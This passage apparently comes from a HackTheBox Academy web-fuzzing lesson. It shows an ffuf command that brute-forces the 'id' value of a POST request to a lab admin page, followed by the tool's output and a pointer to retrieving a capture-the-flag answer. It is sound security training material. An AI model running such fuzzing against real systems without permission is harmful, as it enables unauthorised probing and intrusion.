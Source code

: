 Now we can move on to fuzzing for values.

***

### Value Fuzzing

Our command should be fairly similar to the `POST` command we used to fuzz for parameters, but our `FUZZ` keyword should be put where the parameter value would be, and we will use the `ids.txt` wordlist we just created, as follows:

Value Fuzzing

```shell-session
root@htb[/htb]$ ffuf -w ids.txt:FUZZ -u http://admin.academy.htb:PORT/admin/admin.php -X POST -d 'id=FUZZ' -H 'Content-Type: application/x-www-form-urlencoded' -fs xxx


        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.0.2
________________________________________________

 :: Method           : POST
 :: URL              : http://admin.academy.htb:30794/admin/admin.php
 :: Header           : Content-Type: application/x-www-form-urlencoded
 :: Data             : id=FUZZ
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403
 :: Filter           : Response size: xxx
________________________________________________

<...SNIP...>                      [Status: xxx, Size: xxx, Words: xxx, Lines: xxx]
```

We see that we get a hit right away. We can finally send another `POST` request using `curl`, as we did in the previous section, use the `id` value we just found, and collect the flag.

\\
